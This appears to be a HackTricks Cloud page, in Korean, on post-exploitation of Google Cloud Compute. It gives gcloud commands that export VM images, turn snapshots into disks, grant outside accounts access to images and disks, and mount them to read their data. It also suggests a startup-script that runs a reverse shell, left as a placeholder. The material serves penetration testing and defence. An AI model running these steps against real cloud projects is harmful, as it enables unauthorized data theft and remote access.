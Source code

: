 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute 및 VPC(네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 이미지를 로컬로 내보내고 검사하기

이것은 공격자가 **이미 존재하는 이미지에 포함된 데이터에 접근**하거나 **실행 중인 VM의 새로운 이미지를 생성**하고 실행 중인 VM에 접근하지 않고도 해당 데이터에 접근할 수 있게 합니다.

VM 이미지를 버킷에 내보낸 다음 다운로드하고 다음 명령으로 로컬에 마운트하는 것이 가능합니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해 공격자는 스토리지 버킷에 대한 권한과 **cloudbuild에 대한 권한**이 필요할 수 있습니다. 이는 **서비스**가 내보내기를 수행하도록 요청받을 것이기 때문입니다.\
또한, 이를 위해 codebuild SA와 compute SA는 권한이 필요합니다.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`는 다음이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`는 다음이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크를 로컬로 내보내고 검사하기

스냅샷과 디스크를 직접 내보내는 것은 불가능하지만, **스냅샷을 디스크로, 디스크를 이미지로 변환**하고 **이전 섹션**에 따라 해당 이미지를 내보내어 로컬에서 검사하는 것은 가능합니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VM 생성 시 이미지 검사

**이미지에 저장된 데이터** 또는 **공격자가 이미지를 생성한 실행 중인 VM** 내부에 접근하는 것을 목표로 하여, 외부 계정에 이미지에 대한 접근 권한을 부여하는 것이 가능합니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그리고 나서 그것으로부터 새로운 VM을 생성합니다:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 이미지에 대한 외부 계정 접근을 제공할 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 VM을 시작하고 **메타데이터가 리버스 셸을 실행하도록 만들 수 있습니다**. 파라미터를 추가하여 이미지를 접근할 수 있습니다:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

**디스크나 스냅샷에 저장된 데이터에 접근하기 위해, 스냅샷을 디스크로 변환하거나, 디스크를 이미지로 변환하고 이전 단계를 따를 수 있습니다.**

또는 **외부 계정에 디스크에 대한 접근 권한을 부여할 수 있습니다** (시작점이 스냅샷인 경우 스냅샷에 대한 접근 권한을 부여하거나 그로부터 디스크를 생성합니다):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**인스턴스에 디스크 연결**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM 내부에 디스크를 마운트합니다:

1.  **VM에 SSH 접속**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 들어가면 디스크 장치를 나열하여 새 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새 디스크 또는 원시 디스크인 경우):
*   마운트 포인트 생성:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크 마운트:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

**스냅샷 또는 디스크에 외부 프로젝트에 대한 액세스를 제공할 수 없는 경우**, **스냅샷/디스크와 동일한 프로젝트의 인스턴스 내에서 이러한 작업을 수행해야 할 수 있습니다**.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
